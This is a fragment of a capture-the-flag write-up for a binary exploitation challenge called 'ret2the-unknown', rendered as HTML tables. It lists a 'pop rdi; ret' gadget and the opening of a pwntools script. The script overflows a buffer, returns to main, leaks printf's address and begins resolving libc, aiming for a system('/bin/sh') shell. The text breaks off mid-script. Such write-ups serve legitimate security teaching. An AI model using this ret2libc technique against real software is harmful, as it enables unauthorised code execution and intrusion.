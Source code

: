 <tbody>

<tr class="c22">

<td class="c0" colspan="1" rowspan="1">

<span class="c1">0x00000000004012a3 :</span> <span class="c3">pop</span><span class="c1"> </span><span class="c3">rdi</span><span class="c1"> </span><span class="c1 c12">; ret</span>

</td>

</tr>

</tbody>

</table>

## <span class="c13">Exploit</span>

<span class="c11">Using this gadget, the system() call will contain /bin/sh as its argument, and a shell will be returned:</span>

<a id="t.bbf07cfcc6ef8d2c4a27fe4e90eee26a25d11998"></a><a id="t.13"></a>

<table class="c7">

<tbody>

<tr class="c22">

<td class="c0" colspan="1" rowspan="1">

<span class="c1">from pwn import *  

REMOTE = True  

if REMOTE:  
   p = remote(</span><span class="c1 c4">"mc.ax"</span><span class="c1">,31568)  
</span><span class="c1 c12">else:</span><span class="c1">  
   p = process(</span><span class="c1 c4">"./ret2the-unknown"</span><span class="c1">)  

rip_offset = 40  
main = 0x0000000000401186  

</span><span class="c1 c12"># Wave 1</span><span class="c1">  

</span><span class="c1 c12">## Repeat main function</span><span class="c1">  
payload = b'A'*40 + p64(main)  
p.recvuntil(b</span><span class="c1 c4">"safely?"</span><span class="c1">)  
p.sendline(payload)  

</span><span class="c1 c12"># Retrieve printf_address</span><span class="c1">  
</span><span class="c1 c12">p.recvuntil(b"there: ")</span><span class="c1">  
printf_address = p.recvuntil(b</span><span class="c1 c4">"luck!"</span><span class="c1">).split(b</span><span class="c1 c4">"\n"</span><span class="c1">)[0].decode()  

</span><span class="c1 c12">## Wave 2</span><span class="c1">  

</span><span class="c1 c12"># Get base libc address</span><span class="c1">  
libc = ELF(</span><span class="c1 c4">"libc-2.28.so"</span><span class="c1"> , checksec = False)  
